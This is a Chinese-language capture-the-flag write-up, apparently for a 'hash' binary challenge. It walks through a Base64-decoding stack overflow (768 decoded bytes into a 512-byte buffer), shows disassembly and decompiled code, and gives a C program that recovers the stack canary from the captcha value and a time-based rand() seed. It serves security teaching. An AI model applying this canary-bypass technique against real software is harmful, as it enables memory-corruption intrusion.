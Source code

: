 通过分析代码可以知道，在输入 Base64 字符串时程序可接收 1024bytes（原始字符串长度 768bytes），但是在 `process_hash` 函数处理中保存解码后的缓冲区空间只有 512bytes：
    
处理输入：

    .text:08048FE0                 mov     eax, ds:stdin@@GLIBC_2_0
    .text:08048FE5                 mov     [esp+8], eax    ; stream
    .text:08048FE9                 mov     dword ptr [esp+4], 400h ; n Base64 编码后的字符串 1024bytes，原始字符串长度最大为 768bytes (1024 * 3 / 4)
    .text:08048FF1                 mov     dword ptr [esp], offset g_buf ; s
    .text:08048FF8                 call    _fgets

Base64 解码处理：

    .text:08049015                 lea     eax, [ebp+var_20C]
    .text:0804901B                 mov     [esp+4], eax
    .text:0804901F                 mov     dword ptr [esp], offset g_buf
    .text:08049026                 call    Base64Decode

（由于开启了 `CANARY`，`[ebp+0xc]` 存储的是 CANARY 值，`0x20c - 0xc = 512` 字节）

这里 768 字节的可输入长度（经 Base64 解码后）超过了可存储缓冲区的 512 字节，形成溢出。但由于 `CANARY` 的存在必须要知道准确的 CANARY 值才能够溢出后成功返回控制 PC 指针。

由于 CANARY 值在程序初始化载入运行之前就已经生成，并且在 `my_hash` 产生的 HASH 验证值也使用了 CANARY，并且 8 次 `rand()` 调用的随机种子为当前的时间值（main() 中已经设置）：

```c
int my_hash()
{
  int result; // eax@4
  int v1; // edx@4
  signed int i; // [sp+0h] [bp-38h]@1
  int nums[8]; // [sp+Ch] [bp-2Ch]@2
  int v4; // [sp+2Ch] [bp-Ch]@1

  v4 = *MK_FP(__GS__, 20);
  for ( i = 0; i <= 7; ++i )
    nums[i] = rand();
  result = nums[4] - nums[6] + nums[7] + v4 + nums[2] - nums[3] + nums[1] + nums[5];
  v1 = *MK_FP(__GS__, 20) ^ v4;
  return result;
}
```

因此可以使用得到的 `Capcha` 值和当前时间反推 CANARY 值：

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char* argv[]) {
    int t = atoi(argv[1]);
    int c = atoi(argv[2]);
    int canary = 0;
    int nums[8];

    srand(t);
    int i = 0;
    for(;i <= 7; i++) {
        nums[i] = rand();
    }
    // c = nums[1] + nums[5] + nums[2] - nums[3] + nums[7] + canary + nums[4] - nums[6]
    canary = c - nums[1] - nums[5] - nums[2] + nums[3] - nums[7] - nums[4] + nums[6];
    printf("%x\n", canary);

    return 0;
}
```